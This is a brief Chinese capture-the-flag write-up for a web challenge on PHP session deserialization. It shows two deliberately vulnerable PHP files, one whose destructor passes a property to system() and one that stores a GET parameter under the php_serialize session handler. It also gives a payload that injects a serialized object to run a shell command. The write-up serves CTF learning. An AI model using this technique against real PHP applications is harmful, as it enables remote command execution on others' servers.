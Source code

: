 
# web
### ser2
#session反序列化
- index.php
```php
<?php  
show_source("index.php");  
session_start();  
class Exec{  
    public $commond;  
    function __destruct(){      system($this->commond);  
    }  
  }  
$str = new Exec();  
?>
```

- phpinfo.php
```php
<?php  
error_reporting(0);  
show_source("phpinfo.php");  
ini_set('session.serialize_handler','php_serialize');  
session_start();  
$_SESSION['aaa'] = $_GET['aaa'];  
phpinfo();  
?>
```

*payload*
`/phpinfo.php?aaa=|O:4:"Exec":1:{s:7:"commond";s:16:"ls /var/www/html";}`
发送后访问`index.php` 即可

![!img](https://img.php.cn/upload/article/000/000/067/be69afd137ffe0e5382767c78090c8c8-0.png)


# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-28   00:41